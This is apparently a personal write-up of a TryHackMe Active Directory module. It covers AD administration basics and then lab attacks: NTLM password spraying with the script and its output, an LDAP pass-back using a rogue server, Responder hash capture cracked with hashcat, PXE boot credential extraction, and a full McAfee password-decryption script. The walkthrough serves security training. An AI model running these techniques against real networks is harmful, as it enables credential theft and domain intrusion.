

# Active Directory [TryHackMe Module]

<sup>This write-up covers the entire module of Active Directory, that can be found in the learning paths _Offensive Pentest_ and _Red Teaming_. This module is a walkthrough, I will explore it as much as possible.</sup>

## Active Directory Basics

First let's log into the machine via `xfreerdp`:

```shell
xfreerdp /u:Administrator@THM /p:Password321 /v:10.10.185.134 /cert:ignore +clipboard
```

- In a Windows domain, credentials are stored in a centralised repository called...
- __Active Directory__

- The server in charge of running the Active Directory services is called...
- __Domain Controller__

- Which group normally administrates all computers and resources in a domain?
- __Domain Admins__

- What would be the name of the machine account associated with a machine named TOM-PC?
- __TOM-PC$__

- Suppose our company creates a new department for Quality Assurance. What type of containers should we use to group all Quality Assurance users so that policies can be applied consistently to them?
- __Organizational Units__

Let's open the search in the Windows machine and type _Active Directory Users and Computers_. Open it.

We have to remove the Research and Development OU as per the chart given to us, so go to the __View__ dropdown, then __Advanced Features__, right click the Research and Development OU in the tree to the left, click __Properties__.

You should see __Object__ tab and when you go to it, uncheck the `Protect object from accidental deletion` checkbox. Click OK to save settings and try deleting again. 

Now let's see which users don't match with our organizational chart. Sales department seems to crowded as there are two extra employees, that aren't in the chart: Christine and Robert. Let's delete them too. 

The control of Sales OU should be delegated to Phillip in the IT. Right click Sales OU and click __Delegate Control__, press `Next` in the wizard and type `Phillip` in the prompt for names. Once it finds it click `Next` again. In the tasks list, check only `Reset user passwords and force password change at next logon`. Then `Next` and `Finish`. 

Now let's use Phillip's account to try and reset Sophie's password:

```shell
xfreerdp /u:Phillip@THM /p:Claire2008 /v:10.10.185.134 /cert:ignore +clipboard
```

Once we're in, to reset Sophie's password to the one of our choice open PowerShell and type the following:

```powershell
Set-ADAccountPassword sophie -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
```

I chose `Pass!@#$1234` as Sophie's new password. Now we need to force the user to change password at logon:

```powershell
Set-ADUser -ChangePasswordAtLogon $true -Identity sophie -Verbose
```

Now let's log in as Sophie's user with new password:

```shell
xfreerdp /u:Sophie@THM /p:"Pass!@#$1234" /v:10.10.185.134 /cert:ignore +clipboard
```

Change the password and capture the flag!

- The process of granting privileges to a user over some OU or other AD Object is called...
- __Delegation__

This time we are going to organize computers so, let's go back to the administrator account via `xfreerdp`. Navigate back to Active Directory Users and Computers, right click `thm.local` in the tree, then __New__ and __Organizational Unit__. Name the unit Workstation and do it again for Servers. From Computers OU drag and drop Laptops and Computers to Workstations OU and Servers to Servers OU. 

- After organising the available computers, how many ended up in the Workstations OU? 
- __7__

- Is it recommendable to create separate OUs for Servers and Workstations? (yay/nay)
- __yay__

Now let's log back into the machine as Administrator user. Search for and navigate to __Group Policy Management__ through Start menu. Create a new GPO called "Restrict Control Panel Access". Open it for editing and under _User Configuration_ --> _Policies_ -->  _Administrative Templates_ --> _Control Panel_ find __Prohibit Access to Control Panel and PC Settings__. Double click it and enable it. 

Now we can link this GPO to OUs. Just drag and drop the GPO to all OUs under THM that aren't IT. 

Now let's create a new GPO and name it "Auto Lock Screen", edit it in the same way only look into _Computer Configuration_ --> _Policies_ --> _Windows Settings_ --> _Security Settings_ --> _Local Policies_ --> _Security Options_ and choose __Interactive logon: Machine inactivity limit__.

Set the limit to 5 minutes (or 300 seconds) and apply this policy to the entire domain `thm.local` by dragging it right under it in the tree. 

Now we can log into the machine as user Mark and check if both policies work:

```shell
xfreerdp /u:Mark@THM /p:"M4rk3t1ng.21" /v:10.10.35.36 /cert:ignore +clipboard
```

- What is the name of the network share used to distribute GPOs to domain machines?
- __sysvol__

- Can a GPO be used to apply settings to users and computers? (yay/nay)
- __yay__

- Will a current version of Windows use NetNTLM as the preferred authentication protocol by default? (yay/nay)
- __nay__

- When referring to Kerberos, what type of ticket allows us to request further tickets known as TGS?
- __Ticket Granting Ticket__

- When using NetNTLM, is a user's password transmitted over the network at any point? (yay/nay)
- __nay__

- What is a group of Windows domains that share the same namespace called?
- __Tree__

- What should be configured between two domains for a user in Domain A to access a resource in Domain B?
- __A Trust Relationship__

## Breaching Active Directory

### Configure DNS

First, let's start the VPN for this network in the background (mine's name was `breachingad.ovpn`):

```shell
sudo nohup openvpn --config breachingad.ovpn > /dev/null 2>&1 &
```

Then let's configure DNS for this connection specifically:

```
└─$ nmcli connection show
NAME                UUID                                  TYPE      DEVICE
Wired connection 1  da0d3c10-0411-4b35-ac3a-8e1dddab43a6  ethernet  eth1
breachad            2ef21389-d21b-41e8-868f-7893f446ee65  tun       breachad
```

This `breachad` connection is what we need to configure DNS for:

```
sudo nmcli connection modify "breachad" ipv4.dns "10.200.9.101 1.1.1.1"
``` 

The first DNS server `10.200.9.101` is the IPv4 address of the Domain Controller (THMDC) on this network. The second DNS server address `1.1.1.1` is cloudflare DNS for the purposes of having internet on this machine.

```
sudo nmcli connection modify "breachad" ipv4.ignore-auto-dns yes
```

The purpose of the above command is to not overwrite DNS we gave this connection with automatic configuration of DNS addresses. Now let's turn the connection on:

```
sudo nmcli connection up "breachad"
```

Now let's verify our DNS configuration for this connection is correct:

```
nmcli dev show breachad | grep DNS
```

If the output is this:

```
IP4.DNS[1]:                             10.200.9.101
IP4.DNS[2]:                             1.1.1.1
```

We should be good to go. 

```
nslookup za.tryhackme.com 10.200.9.101
```

If it doesn't resolve, try:

```
sudo ip route add 10.200.9.101 dev breachad
```

And then try `nslookup` again.

Here's a [script](https://github.com/gremlin-0x/AD_module_dns_config) that does this more reliably and is supposed to work with next rooms as well.

- What popular website can be used to verify if your email address or password has ever been exposed in a publicly disclosed data breach?
- __haveibeenpwnd__

In this task the room just provides us with most of what we need to breach the endpoint, including the endpoint itself. In real scenario, we would need to perform enumeration to find out about `http://ntlmauth.za.tryhackme.com` or any other service really, as password spraying attack can be performed against SMB, RDP , WinRM, Windows Login, etc as all of these could be using NTLM for various reasons and purposes. The idea is to find a vulnerable endpoint, perform a password spraying attack with a list of usernames and a password to find out if any user has a weak password we could then try and use against endpoints with a higher level protection (say, Kerberos).

Download and unzip the file tasks:

```shell
unzip passwordsprayer-1111222233334444.zip
```

First, let's define what __password spraying__ means. To anyone familiar with password __brute forcing__, password spraying is that, only reversed, meaning we are trying the _same_ password with a _variety_ of usernames.

<mark>_Clarifying the room_</mark>: __(a.)__ this room provides a password spraying python script as well as the username list to use with it. These are usually collected via OSINT or Phishing campaigns and in this particular case `Changeme123` is often a password IT staff uses to set for the employees within a company to gently remind them that it needs changing, which often they forget to do. __(b.)__ The room doesn't quite explain how the script works, which is why we will do it:

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    count = 0
    for user in self.users:
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

The method iterates over all usernames in the `self.users` list and attempts to authenticate using the provided password with NTLM authentication (`HttpNtlmAuth(self.fqdn + "\\" + user, password)`). Successful Login: If the HTTP response is `200`, the credential pair (username and password) is considered valid, and it prints out the result. Failed Login: If the response is `401`, the login failed, and if verbose mode is enabled, it prints a failure message. `count`: Keeps track of how many valid credential pairs were found.

The usage:

```shell
python3 ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

-u or --userfile: The path to the file containing the list of usernames.

-f or --fqdn: The Fully Qualified Domain Name (FQDN) of the target.

-p or --password: The password to be used in the password spraying attack.

-a or --attackurl: The URL to attack.

Now let's fill this in with our own data.

```shell
python3 ntlm_passwordspray.py -u usernames.txt -p "Changeme123" -f "za.tryhackme.com" -a "http://ntlmauth.za.tryhackme.com"
```

This renders the following valid credential pairs:

```
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```

- What is the name of the challenge-response authentication mechanism that uses NTLM?
- __NetNTLM__

- What is the username of the third valid credential pair found by the password spraying script?
- __gordon.stevens__

- How many valid credentials pairs were found by the password spraying script?
- __4__

- What is the message displayed by the web application when authenticating with a valid credential pair?
- __Hello World__

Now we will practice LDAP pass-back attacks on a printer connected to this network `printer.za.tryhackme.com`. LDAP authentication is sometimes used to integrate applications with Active Directory. In an LDAP authentication scenario, a third-party application (e.g., GitLab, Jenkins, VPN, etc.) uses a pair of AD credentials (usually a service account with bind permissions) to authenticate against the LDAP server. The application queries the AD database using these credentials to verify user authentication when someone attempts to log in.

The service uses a bind operation to authenticate itself to the LDAP server. The bind is typically done using a service account with enough privileges to perform lookups on AD users. The application then sends the user's username and password to the LDAP server, which verifies the user against the AD directory.

AD credentials used by the application to query LDAP are crucial. The permissions and scope of these credentials dictate how much data can be accessed. For example, an application might be limited to reading user attributes, but if the credentials are over-privileged, they could access more sensitive data.

In this case a network device is configured to use LDAP for authentication. However, it often has default or weak configurations, which can be exploited. The printer attempts to authenticate against an LDAP server (in this case Active Directory). 

In the LDAP Pass-back attack, the attacker modifies the printer's LDAP configuration to point to their own machine's IP address. When the printer attempts to test the LDAP connection, it connects to the rogue server. This connection is intercepted, and the attacker can capture the LDAP credentials being transmitted by the printer to authenticate with the LDAP server. 

Let's follow the steps:

```shell
firefox http://printer.za.tryhackme.com/settings.aspx
``` 

We don't have the password for this one, however upon testing settings, it still sends request to the specified IP address. We can input our IP of the VPN interface `breachad` and see what happens:

```shell
ip a | grep breachad
nc -lvnp 339
```

Here's the output:

```
listening on [any] 339 ...
connect to [10.50.8.21] from (UNKNOWN) [10.200.9.201] 49804
0Dc;

x
 objectclass0supportedCapabilities
```

Let's move on to hosting a rogue LDAP server on our machine, to make use of this vulnerability:

```shell
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd
```

To downgrade our LDAP server's security, we need to create an `olcSaslSecProps.ldif` file with the following contents:

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

The file has the following properties:
    - olcSaslSecProps: Specifies the SASL security properties
    - noanonymous: Disables mechanisms that support anonymous login
    - minssf: Specifies the minimum acceptable security strength with 0, meaning no protection.

Now let's use it to patch the LDAP server:

```shell
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

To test our configuration:

```shell
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

The output should be:

```
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN
```

So let's repeat the following sequence and fill in the test settings for the printer:

```shell
ip a | grep breachad
nc -lvnp 339
firefox http://printer.za.tryhackme.com/settings.aspx
```

Fill in the creds and then:

```shell
sudo tcpdump -SX -i breachad tcp port 389
```

The result:

```
12:23:11.951296 IP 10.200.9.201.54858 > kali.ldap: Flags [P.], seq 2832526348:2832526413, ack 3299128608, win 1027, length 65
        0x0000:  4500 0069 72ca 4000 7f06 61ed 0ac8 09c9  E..ir.@...a.....
        0x0010:  0a32 0815 d64a 0185 a8d4 ec0c c4a4 b520  .2...J..........
        0x0020:  5018 0403 cc9d 0000 3084 0000 003b 0201  P.......0....;..
        0x0030:  0760 8400 0000 3202 0102 0418 7a61 2e74  .`....2.....za.t
        0x0040:  7279 6861 636b 6d65 2e63 6f6d 5c73 7663  ryhackme.com\svc
        0x0050:  4c44 4150 8013 7472 7968 6163 6b6d 656c  LDAP..{*********
        0x0060:  6461 7070 6173 7331 40                   ********}
12:23:11.951319 IP kali.ldap > 10.200.9.201.54858: Flags [.], ack 2832526413, win 502, length 0
```

This task focuses on attacking NetNTLM authentication with SMB in a Windows network, leveraging Responder to perform a Man-in-the-Middle (MitM) attack and intercept SMB authentication requests. The goal is to gain access to NetNTLM hashes which can be cracked offline, or perform SMB relay attacks to gain access to networked resources.

SMB is a protocol used by Windows for sharing files, printers, and other network services. It is heavily used for network file sharing and remote administration. SMB relies on NetNTLM authentication (a variant of NTLM used in SMB communications) to verify the identity of clients making requests to the server. Older SMB versions (like SMBv1) have security weaknesses, such as NTLM relay attacks and SMB-signing vulnerabilities, which can be exploited by attackers. 

Responder is a tool that allows attackers to perform MitM attacks by poisoning LLMNR (Link-Local Multicast Name Resolution), NBT-NS (NetBIOS Name Service), and WPAD (Web Proxy Auto-Discovery Protocol) requests on the network.These protocols allow hosts on the same local network to discover each other, and by poisoning these requests, an attacker can intercept SMB authentication attempts.

When a client (e.g., a workstation or service) tries to authenticate using SMB, it will send an NTLM challenge to the server. If an attacker sets up a rogue device (using Responder), it can intercept the authentication challenge and the corresponding NetNTLM hash associated with the challenge. The NetNTLM hash (which contains the password) can then be cracked offline, either manually or using tools like Hashcat, which is a fast password-cracking tool.

Let's follow the steps:

```shell
sudo responder -I breachad
```

It so happens that this task simulates an authentication request that runs once in 30 minutes, so we will need to wait for it for quite a bit to receive it. 

After a bit of waiting, here's the output it showed:

```
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.200.9.202
[SMB] NTLMv2-SSP Username : ZA\svcFileCopy
[SMB] NTLMv2-SSP Hash     : svcFileCopy::ZA:76d998cefda390b1:254A1AA [...] F9757F:01010000 [...] 000000
```

We save the entire response (`svcFileCopy` and onwards) to a file `hash.txt`. Now let's download the task file and crack it using the password list provided:

```shell
hashcat -m 5600 hash.txt passwords.txt --force
```

The output:

```
SVCFILECOPY::ZA:76d998cefda390b1:254a1aa38 [...] d7f9757f:010100000 [...] 000000:{***********}
```

We have the password!

This task is focusing on exploiting misconfigurations in Microsoft's MDT and SCCM deployment tools, which are commonly used is large organizations for operating system deployment and patch management. 

MDT (Microsoft Deployment Toolkit): This tool automates the deployment of Microsoft operating systems. It's often used in conjunction with SCCM (System Center Configuration Manager) to manage software, updates, and system configurations.

PXE Boot is a method used in large organizations to deploy operating systems over the network. By booting from a network server, new devices can load and install an OS without the need for physical installation media like DVDs or USB drives.

Attackers can exploit misconfigurations in the PXE boot process to recover or inject credentials that were used during the OS deployment process. For example, attackers can recover credentials from the `bootstrap.ini` file, which contains sensitive AD account information used during deployment.

TFTP is used to download configuration files and boot images from the MDT server. Once the BCD (Boot Configuration Data) file is downloaded, attackers can extract the details of the PXE boot image (WIM file). The credentials stored in the bootstrap.ini file can then be retrieved, which may include domain administrator credentials or service account credentials used during the unattended installation.

Let's find the IP of the MDT server:

```
└─$ nslookup thmmdt.za.tryhackme.com
Server:         10.200.9.101
Address:        10.200.9.101#53

Name:   thmmdt.za.tryhackme.com
Address: 10.200.9.202
```

Let's connect to the Jump Box using the provided password:

```shell
ssh thm@THMJMP1.za.tryhackme.com
```

Once inside, they navigate to the `Documents` directory, create a working folder (using their username), and copy the `powerpxe` tool:

```cmd
C:\Users\THM>cd Documents
C:\Users\THM\Documents> mkdir gremlin
C:\Users\THM\Documents> copy C:\powerpxe gremlin\
C:\Users\THM\Documents\> cd gremlin
```

This setup allows us to run PowerPXE, a PowerShell-based tool for extracting credentials from PXE boot images.

Retrieve the BCD file using TFTP. The BCD file contains the PXE boot c
onfigurations, including which boot image to use for different system architectures:

```cmd
powershell -c 'tftp -i 10.200.9.202 GET "\Tmp\x64{51EEF035-C878-4BF3-8464-01DC62BC0237}.bcd" conf.bcd'
```

Once downloaded, use PowerPXE to extract information about the WIM (Windows Imaging Format) boot image:

```cmd
C\Users\THM\Documents\gremlin\> powershell -executionpolicy bypass
```

```powershell
PS C:\Users\THM\Documents\Am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\Am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\Am0> Get-WimFile -bcdFile $BCDFile
```

The output should look like this:

```
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : \Boot\x64\Images\LiteTouchPE_x64.wim
\Boot\x64\Images\LiteTouchPE_x64.wim
```

This is a PXE Boot Image location. We have to use `tftp` again to retrieve the image in question:

```powershell
tftp -i 10.200.9.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim
```

Finally, they extract credentials from `pxeboot.wim`:

```powershell
Get-FindCredentials -WimFile pxeboot.wim
```

The output:

```
>> Open pxeboot.wim
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = ******
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = ***************
```

This task focuses on retrieving Active Directory (AD) credentials stored in a centrally deployed application’s configuration files. Specifically, we target McAfee Enterprise Endpoint Security, which stores authentication details in an SQLite database (`ma.db`).

Many enterprise applications require domain authentication during installation and execution. These applications often store credentials in configuration files, databases, or registry keys. If an attacker gains access to such files, they may recover plaintext or encrypted credentials.

We need to log into the Jump Box again:

```shell
ssh thm@THMJMP1.za.tryhackme.com
```

From there we change directory to:

```cmd
cd C:\ProgramData\McAfee\Agent\DB
dir
```

There's `ma.db` file there. Let's copy it to our local machine with `scp`:

```shell
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
```

Now we need to read the database with `sqlitebrowser`

```shell
sqlitebrowser ma.db
```

From there we navigate to the __Browse Data__ tab and check __`AGENT_REPOSITORIES`__ table:



For me at least, nothing is visible at this point, so I navigated to __Execute SQL__ tab and wrote:

```sql
SELECT * FROM AGENT_REPOSITORIES
```

Now there's some credentials. Correct the `sql` query:

```sql
SELECT AUTH_USER, AUTH_PASSWD FROM AGENT_REPOSITORIES
```

This delivers exactly what we need, let's save the password hash.

svcAV:jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==

This python script was buggy for me. It's written for `python2`, but the library it requires `pycryptodome`, when installed with `pip` in the `virtualenv`, doesn't work with `python2` so I debugged the entire code and upgraded it to `python3`. Please if you're running into errors, save yourself some time:

```python3
#!/usr/bin/env python3
# Info:
#    McAfee Sitelist.xml password decryption tool
#    Jerome Nokin (@funoverip) - Feb 2016
#    More info on https://funoverip.net/2016/02/mcafee-sitelist-xml-password-decryption/
#
# Quick howto:
#    Search for the XML element <Password Encrypted="1">...</Password>,
#    and paste the content as argument.
#
###########################################################################

import sys
import base64
import binascii
from Crypto.Cipher import DES3
from Crypto.Hash import SHA

# hardcoded XOR key
KEY = binascii.unhexlify("12150F10111C1A060A1F1B1817160519")

def sitelist_xor(xs):
    return bytes(c ^ KEY[i % 16] for i, c in enumerate(xs))

def des3_ecb_decrypt(data):
    # hardcoded 3DES key
    key = SHA.new(b'<!@#$%^>').digest() + b"\x00\x00\x00\x00"
    # decrypt
    des3 = DES3.new(key, DES3.MODE_ECB)
    decrypted = des3.decrypt(data)
    # quick hack to ignore padding
    return decrypted[0:decrypted.find(b'\x00')].decode() or "<empty>"


if __name__ == "__main__":

    if len(sys.argv) != 2:
        print("Usage:   %s <base64 passwd>" % sys.argv[0])
        print("Example: %s 'jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q=='" % sys.argv[0])
        sys.exit(0)

    # read arg
    encrypted_password = base64.b64decode(sys.argv[1])
    # decrypt
    password = des3_ecb_decrypt(sitelist_xor(encrypted_password))
    # print out
    print("Crypted password   : %s" % sys.argv[1])
    print("Decrypted password : %s" % password)

    sys.exit(0)
```

Now `virtualenv`:

```
python3 -m virtualenv venv
source venv/bin/activate
pip install pycryptodome
python3 mcafee_sitelist_pwd_decrypt.py <the_password_hash_recovered>
```

The output should be:

```
Crypted password   : [...]
Decrypted password : [...]
```

